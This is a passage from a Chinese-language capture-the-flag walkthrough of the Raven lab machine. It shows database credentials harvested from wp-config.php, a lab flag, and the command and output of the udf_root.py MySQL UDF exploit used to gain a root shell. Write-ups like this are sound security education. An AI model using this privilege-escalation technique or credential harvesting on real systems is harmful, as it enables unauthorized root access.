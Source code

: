 现在使用 python 生成一个 tty shell。

## 特权逃避:

收到 shell 后，我们在`/wordpress/wp-config.php`中找到数据库凭证。

```
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
```

> 在`/var/www directory`找到了 Flag2
> 
> flag 2 { 6a 8ed 560 f0b 5358 ECF 844108048 EB 337 }

现在转移 linpeas 并列举一些潜在的特权点。

![](img/7883c973403849eb78fc3845505cc628.png)

我们有 mysql 凭证，我们可以查看这个特定版本是否有任何特权漏洞。

 [## MySQL 用户定义(Linux) x32 / x86_64 sys_exec 权限提升

### MySQL 用户定义(Linux) x32 / x86_64 sys_exec 权限提升作者 D7X MySQL 用户定义(Linux) x32 /…

packetstormsecurity.com](https://packetstormsecurity.com/files/151369/MySQL-User-Defined-Linux-x32-x86_64-sys_exec-Privilege-Escalation.html) [](https://github.com/d7x/udf_root/blob/master/udf_root.py) [## 主 d7x/udf_root 处的 udf_root/udf_root.py

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/d7x/udf_root/blob/master/udf_root.py) 

## 利用用户定义的函数。

下载 github 漏洞并将其传送给受害者。

之后运行漏洞并获得一个根外壳。

```
www-data@Raven:/tmp$ ls
linpeas.sh  sh  tmux-33  udf_root.py
www-data@Raven:/tmp$ python2 udf_root.py --username root --password R@v3nSecurity
Plugin dir is /usr/lib/mysql/plugin/
Trying to create a udf library...
UDF library crated successfully: /usr/lib/mysql/plugin/udf1784.so
Trying to create sys_exec...
ERROR 1125 (HY000) at line 1: Function 'sys_exec' already exists
Checking if sys_exec was crated...
sys_exec was found: *************************** 1\. row ***************************
name: sys_exec
 ret: 2
  dl: udf2422.so
type: function

Generating a suid binary in /tmp/sh...
```
